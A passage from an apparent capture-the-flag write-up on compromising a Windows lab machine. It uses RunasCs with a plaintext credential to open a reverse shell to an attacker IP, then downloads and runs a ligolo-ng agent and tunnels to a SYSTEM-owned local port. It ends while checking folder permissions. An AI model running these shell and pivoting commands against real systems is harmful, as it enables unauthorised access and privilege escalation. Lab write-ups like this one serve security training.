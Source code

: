 ```
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.8:443 cmd
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906185054.png)

Great we can take user.txt 

## Privilege Escalation

In groups we see that c.bum is in  WebDevs group

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907101448.png)

Winpeas found 1 interesting vector, port 8000 is listening as system

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906185442.png)

we need to port forward so let's grab ligolo-ng 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907101959.png)

```
iwr "http://10.10.14.8/agent.exe" -o "agent.exe"
.\agent.exe -connect 10.10.14.8:11601 -ignore-cert
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907105318.png)

Back to ligolo proxy we need to create new route (so as not to interfere with tun0)
https://docs.ligolo.ng/Localhost/

```
ifcreate --name ligolo0
tunnel_start --tun ligolo0
route_add --name ligolo0 --route 240.0.0.1/32
route_list
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907102013.png)

And we have connection.
Checking port 8000

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907102106.png)

Nothing special on page, but when we navigating to error page we can spot path

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907102205.png)

In our shell I checked permissions to this path 

```
icacls C:\inetpub\development\
```

